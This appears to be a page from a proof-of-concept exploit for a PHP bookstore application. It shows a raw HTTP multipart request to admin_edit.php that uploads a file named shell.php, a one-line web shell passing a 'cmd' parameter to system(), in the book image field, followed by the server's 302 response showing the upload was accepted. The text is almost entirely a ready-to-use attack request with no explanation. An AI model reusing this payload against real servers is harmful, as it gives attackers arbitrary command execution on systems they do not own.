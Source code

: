 ```http
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=vkn7lqranr1540rug66ekg51at; sec_session_id=1cg0cuql7m1u0ai5hab8juf904
Connection: close

------WebKitFormBoundaryu10O2ndJrR7Bw8AK
Content-Disposition: form-data; name="isbn"

978-1-49192-706-9
------WebKitFormBoundaryu10O2ndJrR7Bw8AK
Content-Disposition: form-data; name="title"

C# 6.0 in a Nutshell, 6th Edition
------WebKitFormBoundaryu10O2ndJrR7Bw8AK
Content-Disposition: form-data; name="author"

Joseph Albahari, Ben Albahari
------WebKitFormBoundaryu10O2ndJrR7Bw8AK
Content-Disposition: form-data; name="image"; filename="shell.php"
Content-Type: application/x-php

<?php system($_REQUEST['cmd']); ?>

------WebKitFormBoundaryu10O2ndJrR7Bw8AK
Content-Disposition: form-data; name="descr"

When you have questions about C# 6.0 or the .NET CLR and its core Framework assemblies, this bestselling guide has the answers you need. C# has become a language of unusual flexibility and breadth since its premiere in 2000, but this continual growth means there still much more to learn.

Organized around concepts and use cases, this thoroughly updated sixth edition provides intermediate and advanced programmers with a concise map of C# and .NET knowledge. Dive in and discover why this Nutshell guide is considered the definitive reference on C#.
------WebKitFormBoundaryu10O2ndJrR7Bw8AK
Content-Disposition: form-data; name="price"

20.00
------WebKitFormBoundaryu10O2ndJrR7Bw8AK
Content-Disposition: form-data; name="publisher"

OReilly Media
------WebKitFormBoundaryu10O2ndJrR7Bw8AK
Content-Disposition: form-data; name="save_change"

Change
------WebKitFormBoundaryu10O2ndJrR7Bw8AK--
```

### response
```http
HTTP/1.1 302 Found
Date: Sun, 01 Jan 2023 12:20:05 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: admin_edit.php?bookisbn=978-1-49192-706-9
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8

```
